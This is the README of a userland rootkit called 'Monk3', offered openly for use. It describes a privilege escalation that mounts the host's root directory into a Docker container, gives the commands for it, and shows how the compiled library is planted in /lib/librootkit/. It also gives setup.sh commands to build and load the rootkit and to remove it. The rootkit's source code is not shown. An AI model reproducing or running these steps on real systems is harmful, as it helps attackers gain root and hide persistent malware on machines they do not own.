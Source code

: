# Monk3 userland rootkit

## dependencies
<ul>
    <li>docker</li>
</ul>

# how does it work?
Monk3 uses docker to escalate privileges and have access to the user's file system by mounting the root directory into /mnt and accessing it.

example:
```
cd /
docker run -v /:/mnt -it alpine
cd mnt
ls
```
then creates /lib/librootkit/ where the compiled source (monk3.lib.so) will remain.
```
mkdir /lib/librootkit
mv monk3.lib.so /lib/librootkit/monk3.lib.so
```

# configuration guide
to compile and run monk3, just make sure you have docker installed and that your hostname belongs to the same group as docker does
(setup.sh does this for you)

### compile and run rootkit:
```
chmod u=rwx setup.sh
./setup.sh -b
```

### delete and unload rootkit:
```
chmod u=rwx setup.sh
./setup.sh -r
```
